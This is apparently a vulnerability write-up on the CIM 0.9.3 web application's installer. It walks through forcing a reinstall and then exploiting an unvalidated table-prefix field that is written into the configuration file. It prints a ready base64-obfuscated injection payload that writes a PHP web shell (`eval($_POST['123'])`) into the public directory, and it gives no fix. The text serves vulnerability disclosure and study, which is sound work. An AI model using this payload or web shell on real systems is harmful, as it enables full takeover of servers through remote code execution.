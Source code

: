 # Reload application
----------------------------
The location of the vulnerability is the installation file `\CIM\0.9.3_181222\public\install\install.php`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/cim/cim_Information-Disclosure_1-1.png)

Only step1 is judged here. If you enter step2, you can skip case0 and go directly to case1.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/cim/cim_Information-Disclosure_1-2.png)

Visit to `http://www.a.com/public/install/#/step3`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/cim/cim_Information-Disclosure_1-3.png)

# GETSHELL
----------------------------
With the application reset and use, under normal circumstances, you can not access sensitive files under config, but you can access public, and when installing the system, there is no restriction on the user's input, as shown in the source code below.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/CIM/cim_GETSHELL_1-1.png)
![](https://github.com/AvaterXXX/CVEs/blob/master/images/CIM/cim_GETSHELL_1-2.png)

You can see that the database is connected first, then the configuration file is written at the beginning of line 214, so we need to bypass the mechanism, because although the input is not filtered, we have a logic error here, on line 223. Instead of verifying that the table connections in the database are correct, we write the configuration file, so we grab the package view.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/CIM/cim_GETSHELL_1-3.png)

When the parameter N=83, the data is written to the configuration file at this time, so we can construct the payload in the parameter prefix input.
```',@fputs(fopen(base64_decode('Li4vcHVibGljL3Rlc3QucGhw'),w), urldecode(base64_decode('JTNDJTNGcGhwJTIwQGV2YWwlMjglMjRfUE9TVCU1QiUyNzEyMyUyNyU1RCUyOSUzQiUzRiUzRQ=='))),'```
Just write test.php in the public directory of the root directory, the content is ```<?php @eval($_POST['123']);?>```
When the installation is complete, check the home page to generate the test.php file in the public directory.

![](https://github.com/AvaterXXX/CVEs/blob/master/images/CIM/cim_GETSHELL_1-4.png)
